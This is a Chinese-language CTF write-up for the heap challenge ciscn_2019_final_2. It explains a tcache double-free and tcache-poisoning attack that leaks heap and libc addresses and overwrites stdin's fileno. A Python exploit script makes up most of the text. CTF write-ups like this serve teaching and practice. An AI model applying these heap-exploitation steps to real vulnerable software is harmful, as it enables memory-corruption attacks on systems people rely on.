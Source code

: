 ### ciscn_2019_final_2

本题需要将读入的 `flag` 的 `fd` 改为 666。

存在 tcache double free 漏洞，首先分配多个 `short`，利用 double free 泄露堆地址。然后 tcache 投毒，伪造 `chunk0` 大小，并释放进入 unsorted bin 泄露 libc。注意释放前先填满 tcache 才能进入 unsorted bin。

接下来继续投毒使 `int` 的 `fd` 指向 `fileno`，再次 double free 泄露 `chunk0` 的 `mem` 指针地址。最后投毒指向 `chunk0` 的 `mem` 指针地址，再申请三次就可以修改 `fileno` 了。

```python
add(1,0x30)
free(1)
add(2,0x20)
add(2,0x20)
add(2,0x20) # total size: 0x90
add(2,0x20) # prevent merging
free(2)
add(1,0x30)
free(2)
show(2)
ru('number :')
chunk0 = int(ru('\n'))-0xa0
leak('chunk0',chunk0)
add(2,chunk0) # poisoning
add(2,0xdeadbeef)
add(2,0x91) # chunk0

for i in range(7): # fill tcache
    free(1)
    add(2,0x20)
free(1) # unsorted
show(1)
ru('number :')

base = int(ru('\n'))-96-libc.sym['__malloc_hook']-0x10
leak('base',base)
fileno = base+libc.sym['_IO_2_1_stdin_']+0x70

add(1,fileno) # poisoning
add(1,0x30)
free(1)
add(2,0x20)
free(1)
show(1)
ru('number :')
chunk0_mem = int(ru('\n'))-0x30

add(1,chunk0_mem) # poisoning
add(1,0xdeadbeef)
add(1,0xdeadbeef)
add(1,666)

sla('>',4)
```
